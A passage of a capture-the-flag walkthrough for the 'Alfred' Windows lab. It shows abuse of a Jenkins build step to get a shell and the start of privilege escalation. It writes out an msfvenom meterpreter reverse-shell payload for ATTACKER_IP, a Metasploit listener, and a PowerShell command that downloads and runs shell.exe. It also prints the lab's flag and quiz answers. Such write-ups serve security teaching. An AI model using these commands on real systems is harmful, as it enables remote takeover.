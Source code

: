 Now that all this is done, we can finally execute the workflow by clicking on the `Build Now` option shown on the left of the project menu. Doing this will give us a shell to work with:
```shell-session
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\alfred> cd C:\Users\bruce\Desktop
PS C:\Users\bruce\Desktop> type user.txt
79007a09481963edf2e1321abd9ae2a0
```

We've successfully obtained the user flag, now we can move onto escalating our privileges. 

> What is the user.txt flag? 
>
> Answer: `79007a09481963edf2e1321abd9ae2a0`

## Privilege Escalation

To make it easier for us to handle, we'll use a meterpreter shell for the escalation section. First, we'll need to generate a payload for a reverse shell:
```shell-session
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=PORT -f exe -o shell.exe
```
We'll need a listener on our machine:
```shell-session
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST ATTACKER_IP
LHOST => ATTACKER_IP
msf6 exploit(multi/handler) > set LPORT PORT
LPORT => PORT

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on ATTACKER_IP:PORT
```


Uploading it to the machine by adding a build step on the configuration of the project:
```powershell
powershell iex "(New-Object System.Net.WebClient).Downloadfile('http://ATTACKER_IP:PORT/shell.exe','shell.exe')"
```

Building the project will grant us the former shell, where we can execute the following command:
```powershell
PS C:\Program Files (x86)\Jenkins\workspace\alfred> Start-Process shell.exe
```

This will spawn the meterpreter shell.


> What is the final size of the exe payload that you generated?
>
> Answer: `73802`

